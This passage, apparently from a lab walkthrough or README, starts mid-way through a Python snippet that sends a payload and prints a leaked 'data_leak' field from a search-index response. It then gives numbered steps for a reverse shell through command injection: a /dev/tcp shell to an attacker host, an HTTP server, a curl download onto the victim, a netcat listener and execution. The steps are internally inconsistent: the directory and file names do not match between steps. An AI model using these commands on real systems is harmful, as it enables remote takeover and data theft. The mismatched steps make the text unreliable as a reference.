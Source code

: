 ```python
    r = requests.post(url=url, data=payload)
    try:                                        # parsing recieved json, if parsing failed printing raw response (debug)
        print(json.loads(r.text)['hits']['hits'][0]['fields']['data_leak'][0])
    except:
        print(r.text)

```

3. Execute on victim with command injection interface:

```
apt install curl

```

4. On attacker prepare __revshell_script.sh__:

```bash
#!/usr/bin/env bash

/bin/bash -l > /dev/tcp/host.docker.internal/4242 0<&1 2>&1

```

5. On attacker start Python HTTP server:
```
python3 -m http.server 6321

```

6. On victim find _host.docker.internal_ IP with __ping__:
```
ping -c 1 host.docker.internal

```

7. On victim prepare directory and download revshell:

```
mkdir /home/victim
curl http://$HOST_IP:6321/revshell_script.sh -o /home/test/revshell_script.sh

```

8. On attacker start netcat listener:
```
nc -lvnp 4242

```

9. On victim mark revshell as executable and run it:
```
chmod +x /home/victim/revshell_script.sh
/home/victim/revshell.sh

```
